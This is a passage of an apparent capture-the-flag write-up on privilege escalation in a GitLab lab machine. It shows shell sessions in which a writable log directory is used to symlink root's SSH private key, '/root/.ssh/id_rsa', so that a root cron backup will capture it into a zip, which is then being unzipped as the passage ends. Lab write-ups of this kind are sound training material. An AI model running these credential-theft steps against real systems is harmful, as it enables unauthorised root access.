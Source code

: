 ```
drwx------  2 git               root       4096 Jan 26 23:08 sidekiq
drwxr-xr-x  2 root              root       4096 Jan 23 09:39 sshd
git@breakout:/var/log/gitlab$ echo "Test" > lol
bash: lol: Permission denied
```

We don't have write access over the main path 

But on checking further we see user `git` has full perm over `puma` directory

```
git@breakout:/var/log/gitlab$ ls -l puma
total 56
-rw-r--r-- 1 root root  2467 Mar  3  2022 @4000000062225c441a5cc974.u
-rw-r--r-- 1 root root  2467 Mar  4  2022 @4000000063ce561d116b05c4.u
-rwxr--r-- 1 root root   632 Jan 26 23:14 @4000000063d309490b595b7c.s
lrwxrwxrwx 1 root root    30 Mar  3  2022 config -> /opt/gitlab/sv/puma/log/config
-rw-r--r-- 1 root root     0 Jan 26 23:14 current
-rw------- 1 root root     0 Mar  3  2022 lock
-rw-r--r-- 1 git  git      0 Jan 23 09:50 puma_stderr.log
-rw-r--r-- 1 git  git     93 Jan 23 09:42 puma_stderr.log.1.gz
-rw-r--r-- 1 git  git  21441 Jan 27 01:52 puma_stdout.log
-rw-r--r-- 1 git  git   1881 Jan 27 00:59 puma_stdout.log.1.gz
-rw-r--r-- 1 git  git   3694 Jan 26 23:59 puma_stdout.log.2.gz
-rw-r--r-- 1 git  git   1414 Jan 23 09:50 puma_stdout.log.3.gz
-rw-r--r-- 1 root root     0 Jan 26 23:14 state
git@breakout:/var/log/gitlab$
```

Now lets try writing in the directory

```
git@breakout:/var/log/gitlab/puma$ echo Test > lol
git@breakout:/var/log/gitlab/puma$ cat lol
Test
git@breakout:/var/log/gitlab/puma$ 
```

Cool !! Now before we create a symbolic link on a specific file lets say `/etc/shadow` we are not so sure we might end up brute forcing the root's pasword

So instead lets attempt to read the root's ssh key

Here's the syntax

```
git@breakout:/var/log/gitlab/puma$ ln -s /root/.ssh/id_rsa pwned
git@breakout:/var/log/gitlab/puma$ ls -l pwned
lrwxrwxrwx 1 git git 17 Jan 27 01:58 pwned -> /root/.ssh/id_rsa
git@breakout:/var/log/gitlab/puma$ cat pwned 
cat: pwned: Permission denied
git@breakout:/var/log/gitlab/puma$
```

Now after cron runs i'll unzip the zip file to see if we succesfully extracted the root's ssh key

```
coaran@breakout:~$ cd /opt/backups/
coaran@breakout:/opt/backups$ ls
backup.sh  log_backup.zip
coaran@breakout:/opt/backups$ cp log_backup.zip /tmp
coaran@breakout:/opt/backups$ cd /tmp
coaran@breakout:/tmp$ unzip log_backup.zip
Archive:  log_backup.zip
   creating: srv/gitlab/logs/gitaly/
  inflating: srv/gitlab/logs/gitaly/gitaly_ruby_json.log
  inflating: srv/gitlab/logs/gitaly/current
 extracting: srv/gitlab/logs/gitaly/lock
   creating: srv/gitlab/logs/gitlab-rails/
```